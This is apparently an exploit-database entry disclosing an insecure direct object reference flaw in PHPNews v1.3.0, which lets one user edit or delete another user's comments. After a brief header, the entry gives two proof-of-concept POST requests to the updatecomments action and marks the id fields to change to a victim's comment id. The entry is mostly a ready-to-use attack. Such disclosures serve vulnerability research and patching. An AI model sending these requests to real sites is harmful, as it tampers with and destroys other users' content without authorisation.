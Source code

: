 # Exploit Title: PHPNews v1.3.0 - Insecure Direct Object Reference(IDOR)
## Date: 1/4/2024
## Vendor Homepage: https://sourceforge.net/projects/newsphp/files/PHPNews%201._/PHPNews%201.3.0/phpnews_1-3-0.zip/download
## Tested on: Debian Linux, Apache, Mysql
## Vendor: PHPNews
## Version: v1.3.0
## Exploit Description:
## PHPNews v1.3.0 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to update or delete comment that owned by other user(horizontal privilege escalation).

## -----------------------------------------------POC-------------------------------------------------------------------
```
POST /index.php?action=updatecomments HTTP/1.1
...

id=3(CHANGE HERE)&name=user1&email=&website=&message=i+am+user1&numcomments=1
```
```
POST /index.php?action=updatecomments HTTP/1.1
...
delete%5B0%5D=1(CHANGE HERE)&ids%5B0%5D=2&numcomments=1
```